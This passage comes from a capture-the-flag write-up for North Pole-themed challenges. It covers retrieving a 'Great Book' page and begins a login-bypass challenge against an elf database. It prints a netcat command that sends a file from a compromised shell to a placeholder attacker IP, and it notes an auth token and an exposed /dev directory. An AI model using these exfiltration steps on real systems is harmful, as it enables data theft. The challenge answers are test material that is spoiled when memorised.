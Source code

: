 Starting another listener on the remote host, we can pull the target file:

```sh
$ nc -lp 8888 > greatbookpage-7.pdf
```

Pushing the file from the shell we have established:

```sh
nc [attacker-ip] 8888 < GreatBookPage7.pdf
```

##### Solution

The great book describes the witches of Oz who are among the most
powerful, each having different attitudes: some good, some bad.
During the great Schism the witches remained neutral and they only
live within Oz, as of the writing there were no reports of witches
being observed in the North Pole.


#### North Pole Elf Database

##### Questions

  - Who wrote the letter?

##### Process

First looking at the server's source we can see some code handling the login logic:

```js
if (!document.cookie) {
    window.location.href = '/';
} else {
    token = localStorage.getItem("np-auth");
    if (token) {
        $.post( "/login", { auth_token: token }).done(function( result ) {
            if (result.bool) {
                window.location.href = result.link;
            }
        })
    }
}
```

It looks like there's some token being used from local storage called `np-auth`, this will come in handy later.

Attempting to login with Alabaster's email and password does not seem to work.

If we look at `/robots.txt` we see `Disallow: /dev`.
Checking `/dev` we see a directory listing with one file `LDIF_template.txt`, looking at this we get:

```sh
#LDAP LDIF TEMPLATE

dn: dc=com
dc: com
objectClass: dcObject

dn: dc=northpolechristmastown,dc=com
dc: northpolechristmastown
objectClass: dcObject
objectClass: organization

dn: ou=human,dc=northpolechristmastown,dc=com
objectClass: organizationalUnit
ou: human

```